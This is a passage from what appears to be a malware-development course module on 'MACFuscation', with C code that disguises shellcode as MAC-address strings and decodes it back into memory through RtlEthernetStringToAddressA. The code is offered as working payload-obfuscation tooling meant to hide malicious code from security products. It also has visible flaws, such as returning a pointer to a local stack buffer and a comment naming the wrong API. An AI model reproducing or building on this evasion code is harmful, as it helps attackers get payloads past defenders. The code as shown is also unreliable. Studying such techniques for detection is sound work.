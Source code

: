 # 3.0 Payload Obfuscation - MACFucscation

### Introduction

This module will go through another obfuscation technique that is similar to IPv4/IPv6fuscation but instead converts shellcode to MAC addresses.

### MACFuscation Implementation

The implementation of MACFuscation will be similar to what was done in the previous module with IPv4/IPv6fuscation. A MAC address is made up of 6 bytes, therefore the shellcode should be a multiple of 6, which again can be padded if it doesn't meet that requirement.

```c
// Function takes in 6 raw bytes and returns them in a MAC address string format
char* GenerateMAC(int a, int b, int c, int d, int e, int f) {
	char Output[64];

	// Creating the MAC address and saving it to the 'Output' variable 
	sprintf(Output, "%0.2X-%0.2X-%0.2X-%0.2X-%0.2X-%0.2X",a, b, c, d, e, f);

	// Optional: Print the 'Output' variable to the console
	// printf("[i] Output: %s\n", Output);

	return (char*)Output;
}

// Generate the MAC output representation of the shellcode
// Function requires a pointer or base address to the shellcode buffer & the size of the shellcode buffer
BOOL GenerateMacOutput(unsigned char* pShellcode, SIZE_T ShellcodeSize) {

	// If the shellcode buffer is null or the size is not a multiple of 6, exit
	if (pShellcode == NULL || ShellcodeSize == NULL || ShellcodeSize % 6 != 0){
		return FALSE;
	}
	printf("char* MacArray [%d] = {\n\t", (int)(ShellcodeSize / 6));

	// We will read one shellcode byte at a time, when the total is 6, begin generating the MAC address
	// The variable 'c' is used to store the number of bytes read. By default, starts at 6.
	int c = 6, counter = 0;
	char* Mac = NULL;

	for (int i = 0; i < ShellcodeSize; i++) {

		// Track the number of bytes read and when they reach 6 we enter this if statement to begin generating the MAC address
		if (c == 6) {
			counter++;
			
			// Generating the MAC address from 6 bytes which begin at i until [i + 5] 
			Mac = GenerateMAC(pShellcode[i], pShellcode[i + 1], pShellcode[i + 2], pShellcode[i + 3], pShellcode[i + 4], pShellcode[i + 5]);
			
			if (i == ShellcodeSize - 6) {

				// Printing the last MAC address
				printf("\"%s\"", Mac);
				break;
			}
			else {
				// Printing the MAC address
				printf("\"%s\", ", Mac);
			}
			c = 1;

			// Optional: To beautify the output on the console
			if (counter % 6 == 0) {
				printf("\n\t");
			}
		}
		else {
			c++;
		}
	}
	printf("\n};\n\n");
	return TRUE;
}

```

#### Deobfuscating MACFuscation Payloads

The deobfuscation process will reverse the obfuscation process, allowing a MAC address to generate bytes instead of using bytes to generate a MAC address. Performing deobfuscation will require the use of the NTDLL API function [RtlEthernetStringToAddressA](https://learn.microsoft.com/en-us/windows/win32/api/ip2string/nf-ip2string-rtlethernetstringtoaddressa). This function converts a MAC address from a string representation to its binary format.

```c
typedef NTSTATUS (NTAPI* fnRtlEthernetStringToAddressA)(
	PCSTR		S,
	PCSTR* 		Terminator,
	PVOID		Addr
);

BOOL MacDeobfuscation(IN CHAR* MacArray[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {

	PBYTE          pBuffer        = NULL,
                   TmpBuffer      = NULL;

	SIZE_T         sBuffSize      = NULL;

	PCSTR          Terminator     = NULL;

	NTSTATUS       STATUS         = NULL;

	// Getting RtlIpv6StringToAddressA address from ntdll.dll
	fnRtlEthernetStringToAddressA pRtlEthernetStringToAddressA = (fnRtlEthernetStringToAddressA)GetProcAddress(GetModuleHandle(TEXT("NTDLL")), "RtlEthernetStringToAddressA");
	if (pRtlEthernetStringToAddressA == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Getting the real size of the shellcode which is the number of MAC addresses * 6
	sBuffSize = NmbrOfElements * 6;


	// Allocating memeory which will hold the deobfuscated shellcode
	pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), 0, sBuffSize);
	if (pBuffer == NULL) {
		printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	TmpBuffer = pBuffer;

	// Loop through all the MAC addresses saved in MacArray
	for (int i = 0; i < NmbrOfElements; i++) {

		// Deobfuscating one MAC address at a time
		// MacArray[i] is a single Mac address from the array MacArray
		if ((STATUS = pRtlEthernetStringToAddressA(MacArray[i], &Terminator, TmpBuffer)) != 0x0) {
			// if it failed
			printf("[!] RtlEthernetStringToAddressA Failed At [%s] With Error 0x%0.8X", MacArray[i], STATUS);
			return FALSE;
		}

		// 6 bytes are written to TmpBuffer at a time
		// Therefore Tmpbuffer will be incremented by 6 to store the
		TmpBuffer = (PBYTE)(TmpBuffer + 6);

	}

	// Save the base address & size of the deobfuscated payload
	*ppDAddress  = pBuffer;
	*pDSize      = sBuffSize;

	return TRUE;

}
```

The image below shows the deobfuscation process successfully running.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/macfuscation.png)